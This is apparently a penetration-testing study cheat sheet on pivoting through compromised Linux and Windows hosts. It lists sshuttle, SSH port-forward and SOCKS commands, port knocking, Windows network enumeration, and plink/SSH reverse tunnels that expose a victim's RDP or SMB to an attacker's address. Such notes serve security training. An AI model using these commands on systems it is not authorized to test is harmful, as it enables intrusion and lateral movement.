 # Tunneling

* https://github.com/areyou1or0/Tunneling
* https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html

# Pivot with a compromised Linux machine

## SSHuttle

* https://github.com/sshuttle/sshuttle

```
sshuttle -vvr user@10.10.10.10 10.1.1.0/24
```

## SSH

**Local Port Forward**
```
ssh <gateway> -L <localport>:<remote host>:<remote port>
```

**Remote Port Forward**
```
ssh <gateway> -R <remote port>:<local host>:<local port>
```

**SOCKs Proxy**
```
ssh username@host -D <local proxy port> -p <remote port> <target ip>
```

`-nNT` - do not allocate tty

`proxychains` - used to send any processes traffic through a SOCKs proxy defaults to port 9050

`HTTPTunnel` or `stunnel` - tunnel any traffic through HTTP or SSL

**SSH not installed?**

* https://matt.ucc.asn.au/dropbear/dropbear.html

## Port knock

```
for x in 7000 8000 9000; do nmap -Pn –host_timeout 201 –max-retries 0 -p $x server_ip_address; done
```

# Pivot with a compromised Windows machine

## Look for connections to other hosts

```
Arp -a  
netstat -abno 
ipconfig /all 
route print 
schtasks /query /fo LIST /v 
netsh firewall show config
```

## plink

For example to expose RDP, on the target run:
```
plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>
```

## SSH

As of Windows 10 1803 (April 2018 Update), ssh client is now included and turned on by default:
```
ssh -l root -pw password -R 445:127.0.0.1:445 YOURIPADDRESS
```

## Remote Desktop

Remote Desktop for windows with share and 85% screen:
```
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10
```

## Static binaries

* https://github.com/andrew-d/static-binaries
* https://github.com/static-linux/static-binaries-i386
* https://github.com/yunchih/static-binaries


# References

* https://0xdarkvortex.dev/index.php/2018/04/17/31-days-of-oscp-experience/
* https://ben.the-collective.net/oscp-notes/pivoting/
* https://paper.dropbox.com/doc/OSCP-Methodology-EnVX7VSiNGZ2K2QxCZD7Q